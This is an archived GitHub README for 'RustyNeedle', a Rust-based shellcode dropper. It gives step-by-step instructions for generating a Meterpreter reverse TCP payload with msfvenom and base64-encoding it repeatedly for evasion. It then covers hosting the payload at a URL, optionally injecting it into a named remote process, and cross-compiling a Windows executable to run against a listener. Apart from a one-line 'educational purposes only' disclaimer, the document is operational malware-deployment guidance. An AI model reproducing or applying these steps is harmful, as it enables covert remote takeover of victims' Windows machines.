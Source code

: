 # THIS REPO HAS BEEN ARCHIVED AND MOVED TO [CODEBERG](https://codeberg.org/mttaggart/rustyneedle)

# RustyNeedle

**THIS CODE IS FOR EDUCATIONAL PURPOSES ONLY. I take no responsibility if you decide to do crimes with this code.**

A simple dropper for shellcode that leverages the power of...base64 encoding??

No seriously. And it works. Here's how:

## Usage

1. Create your shellcode however you like, be it with `msfvenom` or other tools. Export the raw shellcode file.

2. Use the encode.py script provided in this repository to create an encoded version of the shellcode. 

```bash
python3 encode.py [SHELLCODE_FILE] [B64_ITERATIONS] [OUT_FILE]
```

### Arguments

* `SHELLCODE_FILE`: raw shellcode file to encode
* `B64_ITERATIONS`: # of times to base64-encode the shellcode
* `OUT_FILE`: Resulting text file of the encoded shellcode. **NOTE:** this will be many times larger than the source!
* `IGNORE_SSL`: Ignores SSL/TLS errors.

### Alternative usage

If you don't want to use the script, you can also encode raw shellcode from `msfvenom`. It would go something like this:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw | base64 -w 0 > note.txt
# Pipe to base64 -w 0 as many times as you want to iterate the encoding
```
3. Edit the source code in `src/main.rs` to reflect the `URL` where the encoded shellcode will be hosted. Make sure `B64_TTERATIONS` matches what you created with `encode.py`. If you wish to use remote injection, change the `PROCESS_NAME` value as well.

4. Run `cargo build --target x86_64-pc-windows-gnu --release`. If building on Linux for Windows, make sure you've added the Windows target triple with `rustup target add x86_64-pc-windows-gnu`.

5. Copy the resulting exe in `target/x86_64-pc-windows-gnu/release/rustyneedle.exe` wherever you like.

6. Set up any listeners, then execute the dropper!


